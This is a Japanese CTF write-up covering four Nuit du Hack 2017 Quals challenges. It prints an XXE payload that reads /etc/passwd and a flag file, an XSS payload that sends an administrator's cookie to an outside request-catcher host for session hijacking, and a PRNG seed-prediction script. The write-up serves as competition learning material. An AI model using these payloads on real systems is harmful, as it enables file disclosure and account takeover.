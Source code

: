 ```yaml
---
layout: post
title: Nuit du Hack CTF Quals 2017 の write-up
categories: [ctf]
date: 2017-04-03 14:30:01 +0900
---
```


チーム Harekaze で [Nuit du Hack CTF Quals 2017](https://quals.nuitduhack.com/) に参加しました。最終的にチームで 410 点を獲得し、順位は 115 位 (得点 378 チーム中) でした。うち、私は 4 問を解いて 410 点を入れました。

以下、解いた問題の write-up です。

## [Web 75] No Pain No Gain

与えられた URL を開いてみると、CSV を HTML に変換できるサービスが動いていました。

```
<!-- Invitations -->
id,name,email
1,name1,email1@mail.com
2,name2,email2@mail.com
```

というような CSV をアップロードしろということなので、試しにこの内容でアップロードしてみると… `Sorry! File type not allowed.` とエラーが出力されました。

Fiddler を使ってアップロード時に `Content-Type: application/octet-stream` から `Content-Type: text/csv` に変えてみると

|ID|Name|Email|
|---|---|---|
|1|name1|email1@example.com|
|2|name2|email2@example.com|

というようなテーブルが出力されました。

`<!--` という内容のファイルを送ってみると、`Could not convert the CSV to XML!` とエラーが出力されました。XML といえば XXE です。試しに

```
<!DOCTYPE hoge [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
id,name,email
a,b,&xxe;
```

を送ってみると

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
flag:x:1000:1000::/home/flag:/bin/sh
```

が返ってきました。1 行目を `<!DOCTYPE hoge [ <!ENTITY xxe SYSTEM "/home/flag/flag"> ]>` に変えてアップロードするとフラグが出力されました。

```
NDH{U3VwZXIgTWFyaW8gQnJvcw0K44K544O844OR44O844Oe44Oq44Kq44OW44Op44K244O844K6DQpTxatwxIEgTWFyaW8gQnVyYXrEgXp1DQrYs9mI2KjYsdmF2KfYsdmK2Yg=}
```

## [Web 100] Slumdog Millionaire

```python
#!/usr/bin/python2.7

import random

import config
import utils


random.seed(utils.get_pid())
ngames = 0


def generate_combination():
    numbers = ""
    for _ in range(10):
        rand_num = random.randint(0, 99)
        if rand_num < 10:
            numbers += "0"
        numbers += str(rand_num)
        if _ != 9:
            numbers += "-"
    return numbers


def reset_jackpot():
    random.seed(utils.get_pid())
    utils.set_jackpot(0)
    ngames = 0


def draw(user_guess):
    ngames += 1
    if ngames > config.MAX_TRIES:
        reset_jackpot()
    winning_combination = generate_combination()
    if winning_combination == user_guess:
        utils.win()
        reset_jackpot()
```

というソース付きの問題でした。

PID を乱数のシードにしており、しかもこれまでにどんな組み合わせが出たかを教えてくれるので簡単に推測ができそうです。

```python
import random

def generate_combination():
  numbers = ""
  for _ in range(10):
    rand_num = random.randint(0, 99)
    if rand_num < 10:
      numbers += "0"
    numbers += str(rand_num)
    if _ != 9:
      numbers += "-"
  return numbers

if __name__ == '__main__':
  import sys
  for x in range(32768):
    random.seed(x)
    for _ in range(10):
      if sys.argv[1] == generate_combination():
        print x
        for _ in range(10):
          print generate_combination()
        break
```

`python s.py 07-94-30-38-33-33-41-95-56-00` といった感じで実行すると次の組み合わせが分かります。

```
God_does_not_pl4y_dic3
```

## [Web 200] Purple Posse Market

与えられた URL を開くとヤバそうなものが売られているショッピングサイトが表示されました。

管理者にメッセージを送ることができるようので試しに `<img src=http://requestb.in/xxxxxxx>` を送ってみると、`Referer: http://localhost:3001/admin/messages/xxx/` でアクセスが来ました。

`<script>(new Image).src='http://requestb.in/xxxxxxx?'+document.cookie;</script>` を送ってみると、`connect.sid=xxx` というような形で管理者の Cookie を得ることができました。

この Cookie を使うとメニューに Profile が増えました。Profile に書かれている IBAN コードがフラグでした。

```
IBAN FR14 2004 1010 0505 0001 3M02 606
```

## [Reverse 35] Matriochka step 1

```
$ file step1.bin
step1.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
```

というバイナリが与えられました。試しに `ltrace ./step1.bin ABCD` を実行してみると

```
$ ltrace ./step1.bin ABCD
__libc_start_main(0x400666, 2, 0x7ffff7b65628, 0x400820 <unfinished ...>
strlen("ABCD")                                                            = 4
strcmp("DCBA", "Tr4laLa!!!")                                              = -16
puts("Try again :("Try again :(
)                                                      = 13
+++ exited (status 0) +++
```

と出力されました。逆さまにした argv[1] と `Tr4laLa!!!` を比較しているようなので `./step1.bin '!!!aLal4rT'` を実行すると

```
$ ./step1.bin '!!!aLal4rT' 2>/dev/null
Well done :)
```

という感じで標準出力には `Well done :)` が、標準エラー出力には step2 の実行ファイルが出力されました。

```
!!!aLal4rT
```
